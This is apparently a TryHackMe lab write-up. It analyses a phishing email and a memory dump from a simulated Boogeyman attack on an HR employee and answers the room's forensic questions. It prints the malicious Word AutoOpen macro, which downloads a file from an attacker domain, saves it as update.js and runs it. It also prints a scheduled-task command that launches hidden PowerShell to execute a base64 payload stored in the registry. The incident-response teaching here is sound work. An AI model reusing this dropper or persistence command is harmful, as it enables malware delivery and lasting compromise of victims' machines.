


*The Boogeyman is back. Are you still afraid of the Boogeyman?*

**Difficulty:** Medium

### Artifacts & Tools  

The Boogeyman threat group has returned with improved tactics, techniques and procedures. We are given the below artifacts to analyze another attack carried out by Boogeyman on Quick Logistics LLC.

- Copy of the phishing email.
- Memory dump of the victim's workstation.

The following tools will help us analyze the provided artifacts and are available on the TryHackMe VM for this room:

- Volatility - an [open-source framework](https://github.com/volatilityfoundation/volatility3) for extracting digital artefacts from volatile memory (RAM) samples.
- Olevba - a tool for analysing and extracting VBA macros from Microsoft Office documents. This tool is also a part of the [Oletools suite](https://github.com/decalage2/oletools).

## Spear Phishing Human Resources

Maxine, a Human Resource Specialist working for Quick Logistics LLC, received an application from one of the open positions in the company. Unbeknownst to her, the attached resume was malicious and compromised her workstation.

The security team was able to flag some suspicious commands executed on the workstation of Maxine, which prompted the investigation. Given this, you are tasked to analyse and assess the impact of the compromise.

#### Questions

**What email was used to send the phishing email?**

The .eml file will default to open in Evolution mail if you are using the AttackBox. We can answer the first three questions by opening it in there or by looking at the .eml file in a text editor.

```
From: "westaylor23@outlook.com" <westaylor23@outlook.com>
To: "maxine.beck@quicklogisticsorg.onmicrosoft.com"
        <maxine.beck@quicklogisticsorg.onmicrosoft.com>
Subject: Resume - Application for Junior IT Analyst Role
```

The .eml file shows the sender's email is:

`westaylor23@outlook.com`

---

**What is the email of the victim employee?**

Referring to the image above, we also know the email of the victim.

`maxine.beck@quicklogisticsorg.onmicrosoft.com`

---

**What is the name of the attached malicious document?**



Viewing the email in Evolution mail, we see a file call "Resume_WesleyTaylor.doc" is attached.

---

**What is the MD5 hash of the malicious attachment?**

From Evolution mail, we can save the attachment and run the below command to get the md5 hash:

ubuntu@tryhackme:~/Desktop/Artefacts$ `md5sum Resume_WesleyTaylor.doc`

```
52c4384a0b9e248b95804352ebec6c5b  Resume_WesleyTaylor.doc
```

---

**What URL is used to download the stage 2 payload based on the document's macro?**

We can now use Olevba to see what the macro does in this document and look for a suspicious URL. Run the following command on the attachment we saved earlier.

ubuntu@tryhackme:~/Desktop/Artefacts$ `olevba Resume_WesleyTaylor.doc`

```
Sub AutoOpen()

spath = "C:\ProgramData\"
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile spath & "\update.js", 2
End With

Set shell_object = CreateObject("WScript.Shell")
shell_object.Exec ("wscript.exe C:\ProgramData\update.js")

End Sub
```

Olevba shows the macros code and provides a description of what each part is doing, indicating if it is suspicious and noting IOCs found.



From the macro code and the URL IOC listed, we can see the a file "update.png" downloaded from a suspicious URL (defanged below):

`https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png`

---

**What is the name of the process that executed the newly downloaded stage 2 payload?**

Referring to the end of the macro code, after the file is saved as "update.js", **wscript.exe** is used to execute it.

`shell_object.Exec ("wscript.exe C:\ProgramData\update.js")`

---

**What is the full file path of the malicious stage 2 payload?**

Referencing the line from the last question, we can see the full path of where the payload was saved as "update.js".

`C:\ProgramData\update.js`

---

Moving onto the memory dump and Volatility, I ran some of the most commonly used plugins and saved their output to files. These commands are listed below

```
ubuntu@tryhackme:~/Desktop/Artefacts$ vol -f WKSTN-2961.raw windows.pslist > pslist.txt
ubuntu@tryhackme:~/Desktop/Artefacts$ vol -f WKSTN-2961.raw windows.pstree > pstree.txt
ubuntu@tryhackme:~/Desktop/Artefacts$ vol -f WKSTN-2961.raw windows.netscan > netscan.txt
ubuntu@tryhackme:~/Desktop/Artefacts$ vol -f WKSTN-2961.raw windows.cmdline > cmdline.txt
```

**What is the PID of the process that executed the stage 2 payload?**

We found out from Olevba that wscript.exe is used to execute the stage 2 payload, I searched for this process in `pslist`.

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat pslist.txt | grep "wscript"`

```
4260	1124	wscript.exe	0xe58f864ca0c0	6	-	3	False	2023-08-21 14:12:47.000000 	N/ADisabled
```

4260 refers to the processes PID, 1124 to its PPID. We can also answer the next question with this info.

---

**What is the parent PID of the process that executed the stage 2 payload?**

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat pslist.txt | grep "1124"`

```
1124	1440	WINWORD.EXE	0xe58f81150080	18	-	3	False	2023-08-21 14:12:31.000000 	N/ADisabled
```

We can see wscript.exe has WINWORD.EXE as its parent process with PID 1124.

---

**What URL is used to download the malicious binary executed by the stage 2 payload?**

I searched "boogeyman" in the memory dump's strings, since we found earlier it was included in the URL of the file downloaded at an earlier stage. In the strings output, we see file "update.png", downloaded by the macro and another "update.exe".

ubuntu@tryhackme:~/Desktop/Artefacts$ `strings WKSTN-2961.raw | grep boogeyman | sort -r | uniq`

```
var url = "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe"
s.boogeymanisback.lol/aa2a9
s.boogeymanisb
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png
https://files.boogeymanisbac
https://files.boogeymanisba
files.boogeymanisback.lolw
files.boogeymanisback.lol_
files.boogeymanisback.lol
files.boogeymanisback
es.boogeymanisback.lol3
es.boogeymanisback.lol
boogeymanisback.lol0
boogeymanisback.lol
boogeymanisback
*.boogeymanisback.lol0!
&files.boogeymani0
```

---

**What is the PID of the malicious process used to establish the C2 connection?**

Searching `pstree` for this malicious executable, we see it is PID 6216.

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat pstree.txt | grep updater`

```
****** 6216	4260	updater.exe	0xe58f87ac0080	18	-	3	False	2023-08-21 14:12:48.000000 	N/A
```

For confirmation, I used grep to get a better idea of the process hierarchy.

```
        PID    PPID  IMAGE
******* 4464   6216	 conhost.exe	
****** 6216	   4260	 updater.exe	
***** 4260	   1124	 wscript.exe	
**** 1124	   1440	 WINWORD.EXE	
```

---

**What is the full file path of the malicious process used to establish the C2 connection?**

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat cmdline.txt | grep update`

```
6216	updater.exe	"C:\Windows\Tasks\updater.exe" 
```

---

**What is the IP address and port of the C2 connection initiated by the malicious binary? (Format: IP address:port)**

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat netscan.txt | grep updater`

```
0xe58f812ab6b0	UDPv4	0.0.0.0	0	*	0		6216	updater.exe	2023-08-21 14:12:48.000000 
0xe58f84d95010	TCPv4	10.10.49.181	63299	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:14:26.000000 
0xe58f86455010	TCPv4	10.10.49.181	63350	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:16:11.000000 
0xe58f86b1b770	TCPv4	10.10.49.181	63331	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:15:17.000000 
0xe58f86b73010	TCPv4	10.10.49.181	63308	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:14:39.000000 
0xe58f86b9ebf0	TCPv4	10.10.49.181	63291	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:14:13.000000 
0xe58f8741ebf0	TCPv4	10.10.49.181	63348	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:16:05.000000 
0xe58f8760dbf0	TCPv4	10.10.49.181	63298	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:14:24.000000 
0xe58f8797fc40	UDPv4	0.0.0.0	0	*	0		6216	updater.exe	2023-08-21 14:12:48.000000 
0xe58f87980180	UDPv4	0.0.0.0	0	*	0		6216	updater.exe	2023-08-21 14:12:48.000000 
0xe58f87980180	UDPv6	::	0	*	0		6216	updater.exe	2023-08-21 14:12:48.000000 
0xe58f87980570	UDPv4	0.0.0.0	0	*	0		6216	updater.exe	2023-08-21 14:12:48.000000 
0xe58f87980570	UDPv6	::	0	*	0		6216	updater.exe	2023-08-21 14:12:48.000000 
0xe58f87e81bf0	TCPv4	10.10.49.181	63339	128.199.95.189	8080	CLOSED	6216	updater.exe	2023-08-21 14:15:40.000000 
```

We can see with `netscan` that "updater.exe" initiated a connection with 128.199.95.189 on port 8080.

---

**What is the full file path of the malicious email attachment based on the memory dump?**

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat cmdline.txt | grep Resume`

```
1440	OUTLOOK.EXE	"C:\Program Files\Microsoft Office\Root\Office16\OUTLOOK.EXE" /eml "C:\Users\maxine.beck\Desktop\Resume - Application for Junior IT Analyst Role.eml"
1124	WINWORD.EXE	"C:\Program Files\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc
```

Along with the `.eml` file, searching for resume reveals the location of the `.doc` attachment.

`C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc`

---

**The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?**

Knowing the keyword 'schtasks' is used to create these on Windows, we can search the memory dump's strings. By looking carefully at all the strings returned, we can figure out the full command.

ubuntu@tryhackme:~/Desktop/Artefacts$ `strings WKSTN-2961.raw | grep schtasks`

```
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'
```
